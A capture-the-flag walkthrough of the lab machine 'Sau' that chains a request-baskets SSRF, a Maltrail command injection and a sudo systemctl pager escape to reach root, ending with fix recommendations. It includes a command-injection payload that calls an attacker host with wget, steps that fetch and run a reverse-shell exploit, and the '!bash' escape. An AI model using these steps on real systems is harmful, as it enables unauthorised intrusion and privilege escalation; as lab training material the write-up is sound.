# Sau
- [Sau](#sau)
  - [Service Enumeration](#service-enumeration)
  - [Low-Privilege Access](#low-privilege-access)
    - [Service-Side Request Forgery (SSRF)](#service-side-request-forgery-ssrf)
    - [Verifying the Vulnerability](#verifying-the-vulnerability)
    - [Access Port 80](#access-port-80)
  - [Unauthenticated OS Command Injection](#unauthenticated-os-command-injection)
    - [Verifying the Vulnerability](#verifying-the-vulnerability-1)
    - [Reverse Shell](#reverse-shell)
  - [Privilege Escalation](#privilege-escalation)
  - [Recommendations](#recommendations)

## Service Enumeration
A port scan reveals the machine is running SSH and a possible web server on 55555. Port 80 is blocked as well.

 <br>

Navigating to `http://10.10.11.224:55555` results in a redirect to `http://10.10.11.224:55555/web`, which hosts an instance of [request-baskets](https://github.com/darklynx/request-baskets) 1.2.1.

 <br>



## Low-Privilege Access

### Service-Side Request Forgery (SSRF)
request-baskets 1.2.1 is affected by a Server-Side Request Forgery (SSRF) vulnerability. A basket can be configured so it forwards incoming requests to another URL, allowing an attacker to use the request-baskets server as a proxy. This is done by setting the **Forward URL** on a basket and then accessing it at `http://10.10.11.224:55555/BASKET-NAME`.

This vulnerability is known to affect versions up to 1.2.1 and has been assigned [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). Details are available [here](https://notes.sjtu.edu.cn/s/MUUhEymt7).

### Verifying the Vulnerability
Let's create a basket and see if we can get the server to make a request against our attack machine.

Creating a basket is simple - a name should already be generated (along with the URL); just click **Create**. When the pop-up appears, click **Open Basket**.

To configure the basket, click on the gear icon.

 <br>

Set the **Forward URL** to `http://MY-IP:80/test`.

 <br>

Start a Netcat listener and navigate to `http://10.10.11.224:55555/BASKET-NAME`. There should be an empty page in the browser. However, the Netcat listener catches a GET request from 10.10.11.224.

 <br>

### Access Port 80
Based on our port scan results, we don't have direct network access to port 80 on Sau. However, maybe we can use the exploit to get there and confirm if a web server exists.

Modify our basket with the following settings:
- **Forward URL**: `http://127.0.0.1`
- **Proxy Response**: Checked

 <br>

Navigating to `http://10.10.11.224:55555/BASKET-NAME` brings us to a new page with **Maltrail (v0.53)** at the bottom.

 <br>

## Unauthenticated OS Command Injection
[Maltrail](https://github.com/stamparm/maltrail) up to and including v0.54 are affected by an unauthenticated [OS command injection vulnerability](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/). An attacker can inject OS commands into the `username` parameter of the login page.

### Verifying the Vulnerability
Let's see if we can get Sau to make a request against our attack machine using `wget`.

Update the basket's **Forward URL** to `http://127.0.0.1/login`. 
> Maltrail's default listening port is 8338. However, the instance running on Sau is accessible on 80, so we'll stick with that.

 <br>

Start a Netcat listener and run the following command:
```bash
curl 'http://10.10.11.224:55555/BASKET-NAME' \
--data 'username=;`wget http://MY-IP/evil-test`'
```

We should see a GET request for `/evil-test`.

 <br>

With command execution confirmed, let's work on getting a shell.

### Reverse Shell
Luckily, there is a [Python script](https://github.com/spookier/Maltrail-v0.53-Exploit) available that can make this easy. The payload is a base64-encoded Python reverse shell.

Start a Netcat listener, then download and run the exploit.
```bash
wget https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/main/exploit.py -O maltrail_rce.py

python3 maltrail_rce.py MY-IP LISTENING-PORT http://10.10.11.224:55555/BASKET-NAME
```

After a few moments, we'll get access as `puma`.

The flag is located at `/home/puma/user.txt`.

 <br>

## Privilege Escalation
Our user has sudo permissions to check the status of the Maltrail server.

 <br>

The output of `systemctl` is shown in chunks or paginated. We can inject OS commands into the pager, such as `!bash`. Because we are running as sudo, we end up with a root shell.

 <br>

The flag is located at `/root/root.txt`.

## Recommendations
- Run request-baskets in restricted mode to prevent unauthenticated users from creating baskets. The redirect functionality appears to be a core part of the application; the SSRF was tested and confirmed to be working as of v.1.2.3.
  - See `-mode` under the [Parameters](https://github.com/darklynx/request-baskets) section.
- Upgrade to Maltrail v0.55 or above to fix the unauthenticated OS command injection vulnerability.
- Remove sudo permissions that allow `puma` to check service status for Maltrail; the command can be performed without sudo.